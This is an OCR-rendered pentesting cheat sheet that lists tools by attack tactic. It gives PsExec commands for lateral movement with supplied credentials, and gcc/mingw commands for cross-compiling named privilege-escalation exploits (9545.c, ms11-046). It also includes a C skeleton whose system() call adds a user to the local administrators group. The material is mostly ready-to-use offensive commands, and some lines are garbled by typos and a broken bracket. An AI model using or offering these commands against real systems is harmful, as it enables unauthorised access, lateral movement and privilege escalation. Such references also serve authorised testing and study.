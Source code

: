 
# psexec.exe
- service: smb
- tactics: lateral_movement
- suites: pstools

## run psexec
- `.\PsExec.exe -accepteula \\<remote_hostname> cmd`
- `PsExec64.exe \\remote_hostname> -u <username> -p <password> shell64.exe`

---

# gcc
- service: all
- tactics: weaponization

## cross compile for 32bit (m32) and all linux flavors (gnu, sysv)
- `apt-get install libc6-dev-i386`
- `gcc -m32 -Wall -Wl,--hash-style=both 9545.c -o exploit`

## cross compile for 32Bit windows (on 64bit linux)
- `i686-w64-mingw32-gcc -o ms11-046.exe ms11-046.c -lws2_32`

## cross compile for 32bit windows (on 32bit linux)
- `apt-get install mingw32`
- `i586-mingw32msvc-gcc <source>.c -o <outfile> -lws2_32`

## static application
> To compile static applications use the “-static” parameter additionally

## skelleton c code which calls system()

```
#include <stdlib.h>
int main ()
{
int i;
    i = system("net localgroup administrators theusername /add");
return 0;
}
```

---

# pyinstaller.py
- serivce: all
- tactics: weaponization
